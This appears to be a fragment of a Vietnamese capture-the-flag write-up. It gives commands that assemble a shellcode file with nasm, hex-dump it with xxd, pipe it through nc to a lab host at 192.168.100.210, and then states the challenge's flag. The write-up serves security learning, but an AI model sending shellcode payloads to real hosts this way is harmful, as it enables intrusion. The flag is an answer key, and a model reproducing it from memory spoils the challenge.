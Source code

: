 Chạy lệnh sau: (nhớ copy file asm vào desktop Kali)<br/>
<code>nasm sc2_soln.asm</code><br/>
<code>xxd ­ps sc2_soln</code><br/>
<code>xxd ­ps sc2_soln | nc 192.168.100.210 16831</code><br/>
Cờ là <code>ProcessCertainNearly173</code>
